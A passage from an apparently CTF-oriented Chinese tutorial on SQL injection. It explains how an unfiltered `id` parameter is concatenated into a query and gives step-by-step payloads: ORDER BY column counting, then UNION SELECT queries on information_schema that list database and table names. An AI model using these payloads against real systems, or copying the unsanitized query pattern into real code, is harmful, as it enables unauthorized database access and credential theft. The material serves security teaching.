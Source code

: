 我们可用理解为两个部分 原有语句 `SELECT username,password FROM users WHERE id =` 和用户输入部分`$_GET["id"]`。

前面我们说到，这种语句一般用于用户输入id来索引查询，所以预期的输入都是数字，所以直接采用的直接拼接的方式，以数字的方式进行查询。

然而，用户的输入因为没有过滤的缘故，不管输入什么都会直接拼接到后面，所以我们可用用下面的步骤逐步得到数据库信息：

*   使用 `Order by` 确定列数，方便后续注入。

    ```SQL
    id = 1 Order by 1;
    id = 1 Order by 2;
    id = 1 Order by 3; # 报错 确定列数为 2 
    ```
*   使用联合查询 `union` 基于 `information_schema` 拿到数据库名

    ```SQL
    1 union SELECT 1,schema_name FROM information_schema.schemata;
    # or
    1 union SELECT schema_name,2 FROM information_schema.schemata;
    # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
    # 此时后台执行为:
    SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
    ```

​ ![image-20230426195745130](https://nssctf.wdf.ink/img/WDTJ/202304261957162.png)

​ 也可以把1换成其他的，比如`database()` 这样我们可以知道我们当前在哪个数据库

​ ![image-20230426195952638](https://nssctf.wdf.ink/img/WDTJ/202304261959665.png)

*   下面就是用联合查询得到数据库里面的表名，一般步骤我们都是先获取当前库 ( `database()` ) 的表，再去看其他库的。

    这里我们基于`UNION` `GROUP_CONCAT(table_name)` 和 `information_schema.tables`

    ```sql
    1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
    1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
    # 原理同上
    # 如果要查询其他数据库 可以写为 where table_schema='databaseNAME'
    # 后台执行为：
    SELECT username,password FROM users WHERE id = 1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
    ```
